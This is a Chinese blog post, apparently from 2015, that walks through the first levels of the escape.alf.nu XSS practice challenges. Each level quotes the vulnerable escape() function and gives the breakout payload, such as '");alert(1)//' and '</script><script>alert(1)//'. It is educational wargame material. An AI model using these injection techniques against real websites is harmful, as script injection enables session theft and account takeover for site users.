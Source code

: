 ```yaml
---
layout:     post
title:      "escape.alf.nu"
subtitle:   "Part 1"
date:       2015-12-20
author:     "dogewatch"
header-img: "img/post-bg-js-version.jpg"
tags:
    - web
---
```


> "X站之路"

## 前言

看了一段时间的XSS，打算找点东西练练手，于是就找到了<a href="http://escape.alf.nu/">这个</a>。
边查资料边做，还是有些收获吧，这里先把前面15个题做个总结。

## 正文

*<a href="http://escape.alf.nu/0">第0题</a>*

```
function escape(s) {
  // Warmup.

  return '<script>console.log("'+s+'");</script>';
}
```
这里没有做任何的过滤，所以只需要闭合掉双引号和括号，最后用注释符注释掉剩余部分即可。
```
");alert(1)//
```

*<a href="http://escape.alf.nu/1">第1题</a>*

```
function escape(s) {
  // Escaping scheme courtesy of Adobe Systems, Inc.
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```
这里对双引号做了转义，因此不能直接使用双引号闭合。但是因为没有对反斜线做转义，所以可以用反斜线去转义掉双引号前的反斜线从而使得双引号依然可以闭合。
```
\");alert(1)//
```

*<a href="http://escape.alf.nu/2">第2题</a>*

```
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```
这里用JSON.stringify对反斜线做了转义，所以不能采用上一题的解法。但是'<'、'>'均未被过滤，所以可以直接闭合script标签后另起一个script标签进行弹窗。
```
</script><script>alert(1)//
```
